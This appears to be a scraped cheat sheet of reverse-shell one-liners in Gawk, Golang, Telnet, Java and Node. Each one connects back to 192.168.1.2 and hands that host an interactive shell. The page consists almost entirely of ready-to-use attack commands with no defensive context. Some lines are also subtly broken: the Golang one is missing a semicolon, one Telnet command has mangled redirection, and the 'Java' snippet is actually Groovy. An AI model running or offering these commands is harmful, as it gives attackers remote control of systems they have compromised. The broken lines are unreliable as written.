## Gawk

```
gawk 'BEGIN {P=443;S="> ";H="192.168.1.2";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'

```

---

## Golang

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.1.2:443");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

```

---

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 443 0/tmp/p

```

```
telnet 192.168.1.2 80 | /bin/bash | telnet 192.168.1.2 443

```

---

## Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \\$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

---

## Node

```
require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');

```

---